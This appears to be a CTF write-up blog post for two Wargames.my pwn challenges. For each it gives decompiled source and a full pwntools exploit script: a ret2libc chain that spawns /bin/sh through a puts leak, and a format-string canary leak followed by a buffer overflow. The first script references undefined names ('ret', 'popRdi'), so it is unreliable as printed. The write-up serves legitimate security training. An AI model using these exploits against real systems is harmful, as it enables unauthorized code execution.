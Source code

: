 ```yaml
---
toc: true
title: "WGMY CTF (Top #15)"
description: Wargames.my
date: 2023-12-16
author: Duc Anh Nguyen
---
```


## [1. Pwn: Magic Door](https://github.com/heckintosh/CTF/tree/main/WargamesMy/Pwn/magic-door/challenge)
```shell
pwndbg> checksec
[*] '/home/kali/CTF/WargamesMy/Pwn/magic-door/challenge/magic_door'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
<details open>
  <summary><b>Source</b></summary>

  ```c
  char *open_the_door()
{
  char s1[12]; // [rsp+0h] [rbp-10h] BYREF
  int v2; // [rsp+Ch] [rbp-4h]

  initialize();
  puts("Welcome to the Magic Door !");
  printf("Which door would you like to open? ");
  __isoc99_scanf("%11s", s1); // Enter 050015 here
  getchar();
  if ( !strcmp(s1, "50015") )
    return (char *)no_door_foryou();
  v2 = atoi(s1);
  if ( v2 != 50015 )
    return (char *)no_door_foryou();
  else
    return magic_door();
}
```

```c
char *magic_door()
{
  char s[8]; // [rsp+10h] [rbp-40h] BYREF
  __int64 v2; // [rsp+18h] [rbp-38h]
  __int64 v3; // [rsp+20h] [rbp-30h]
  __int64 v4; // [rsp+28h] [rbp-28h]
  __int64 v5; // [rsp+30h] [rbp-20h]
  __int64 v6; // [rsp+38h] [rbp-18h]
  __int64 v7; // [rsp+40h] [rbp-10h]
  __int64 v8; // [rsp+48h] [rbp-8h]

  *(_QWORD *)s = 0LL;
  v2 = 0LL;
  v3 = 0LL;
  v4 = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  puts("Congratulations! You opened the magic door!");
  puts("Where would you like to go? ");
  return fgets(s, 256, stdin);
}
  ```
</details>

Easy to see that there is a buffer overflow in magic_door. In order to get to it you have to pass the `open_the_door` function first. The task is to pass these two seemmingly contradicting conditions:

| Conditions      | Description |
| ----------- | ----------- |
|`!strcmp(s1, "50015")` |    strcmp returns 0 if equal -> if "50015" is entered: !0 -> true and you are not able to proceed|
|`v2 = atoi(s1); v2 != 50015`|  Check if atoi(input) == 50015|

Enter 050015 should satisfy first condition and atoi will ignore leading zero also. Now it's just ret2libc for the `magic_door` function (since NX is enabled so no shellcode). Now is just to leak the libc address via puts and perform ret2libc.

<details>
<summary><b>solve.py</b></summary>

```python
from pwn import *
import os
from LibcSearcher import *

context.arch = 'amd64'
pty = process.PTY
is_local = False
is_remote = False

elf = ELF("/home/kali/CTF/WargamesMy/Pwn/magic-door/challenge/magic_door")
if len(sys.argv) == 1:
    is_local = True
    p = process(elf.path, stdin=pty, stdout=pty)

elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)


#debug(cmd='''b *magic_door+135''')
print(p.recvuntilS("open?"))

p.sendline("050015")
print(p.recvuntilS("go?"))

rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main = elf.symbols['main']

log.info("pop rdi: " + hex(pop_rdi))
log.info("Puts@plt: " + hex(puts_plt))
log.info("Puts got: " + hex(puts_got))
log.info("Main: " + hex(main))

payload = b'A' * 72 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main) # leak put address and return to main to execute system command after knowing libc
p.sendline(payload)

p.recv()
puts_leak = u64(p.recv(6).ljust(8,b"\x00")) 

log.info("Puts leak " + hex(puts_leak))
libc = LibcSearcher("puts", puts_leak) # using libc searcher right here, if there is libc error you have to manually addd libc to libcsearcherfolder.

p.sendlineafter(b"Which door would you like to open?",b"050015")

rop  = b"A"* 72
rop += ret + popRdi + p64(next(libc.search(b"/bin/sh"))) + p64(libc.symbols["system"])

p.sendlineafter(b"Where would you like to go?",rop)
p.interactive()

#print(p.recvall(timeout=1))

```
</details>


## [2. Pwn: Pakmat Burger](https://github.com/heckintosh/CTF/tree/main/WargamesMy/Pwn/pakmatburger/challenge)

<details open>
<summary><b>Source</b></summary>

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  const char *s2; // [rsp+0h] [rbp-40h]
  char s1[9]; // [rsp+Ah] [rbp-36h] BYREF
  char phonenum[10]; // [rsp+13h] [rbp-2Dh] BYREF
  char format[12]; // [rsp+1Dh] [rbp-23h] BYREF
  char v8[15]; // [rsp+29h] [rbp-17h] BYREF
  unsigned __int64 v9; // [rsp+38h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  initialize(argc, argv, envp);
  s2 = getenv("SECRET_MESSAGE");
  if ( s2 )
  {
    puts("Welcome to Pak Mat Burger!");
    printf("Please enter your name: ");
    __isoc99_scanf("%11s", format);
    printf("Hi ");
    printf(format);
    printf(", to order a burger, enter the secret message: ");
    __isoc99_scanf("%8s", s1);
    if ( !strcmp(s1, s2) )
    {
      puts("Great! What type of burger would you like to order? ");
      __isoc99_scanf("%14s", v8);
      getchar();
      printf("Please provide your phone number, we will delivered soon: ");
      return (unsigned int)fgets(phonenum, 100, stdin);
    }
    else
    {
      puts("Sorry, the secret message is incorrect. Exiting...");
      return 0;
    }
  }
  else
  {
    puts("Error: SECRET_MESSAGE environment variable not set. Exiting...");
    return 1;
  }
}
```

```c
int secret_order()
{
  return system("cat ./flag.txt");
}
```
</details>

Examining the source code, there is a format string vulnerability in `printf(format)`. Using this we can leak the secret and bypass the secret requirements. Also we can use it to bypass the canary. `return (unsigned int)fgets(phonenum, 100, stdin);` is just straight up a buffer overflow vulnerability. Phonenum length is only 10 but `fgets` allows 100 characters to be put in the array. Overflow and return to the `secret_order` function to get the flag. 

Since the secret does not change and I can only use the format vulnerablity to leak two out of three key information for this challenge, I have to connect to the server twice, first call is to leak the secret and the second time is for full exploitation.

<details open>
<summary><b>solve.py</b></summary>

```python
from pwn import *
import os
import re

context.arch = 'amd64'
pty = process.PTY
is_local = False
is_remote = False

elf = ELF("/home/kali/CTF/WargamesMy/Pwn/pakmatburger/challenge/pakmat_burger")
if len(sys.argv) == 1:
    is_local = True
    p = process(elf.path, stdin=pty, stdout=pty)

elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)



# Grab secret the first time
print(p.recvuntilS("name:"))
p.sendline(b"%6$s")
secret = p.recvuntil(",")[:-1].decode().split()[1]
log.info("Secret " + secret)
p.close()

# Run again:
# p = process(elf.path, stdin=pty, stdout=pty)
p = remote(host,port)
# debug(cmd='''
# b *main+373
# ''')

print(p.recvuntilS("name:"))
p.sendline(b"%13$p.%17$p") # 13 is canary, 17 is main
leak = p.recvuntil(",")[:-1].decode().split()[1].split(".")
canary = leak[0]
main_leak = leak[1]
pop_rdi = 0x000000000000101a

log.info("Canary " + canary)
log.info("Main " + main_leak)
canary = int(canary, 16)
main_leak = int(main_leak, 16)
ret_offset = main_leak + 394  # calculate these by deducing them in gdb 
secret_offset = main_leak - 22
log.info("Ret " + f"0x{ret_offset:016x}")
log.info("Secret Order " + f"0x{secret_offset:016x}") # Calculate secret order address
p.sendline(secret)

print(p.recvuntilS("order?"))
p.sendline(b"Test")
print(p.recvuntilS("soon:"))

payload = b"A"*37 + p64(canary) + b"A"*8 + p64(ret_offset) + p64(secret_offset)  # Overflow the buffer and return to the secret function.

p.sendline(payload)
p.recvall(timeout = 1)
# """ 
# Code For finding offset from canary til ret. it was 8 
# p.wait()
# core = p.corefile
# stack = core.rsp
# log.info("rsp = %#x", stack)
# pattern = core.read(stack, 4)
# rip_offset = cyclic_find(pattern)
# log.info("rip offset is %d", rip_offset)
# """

p.interactive()
```
</details>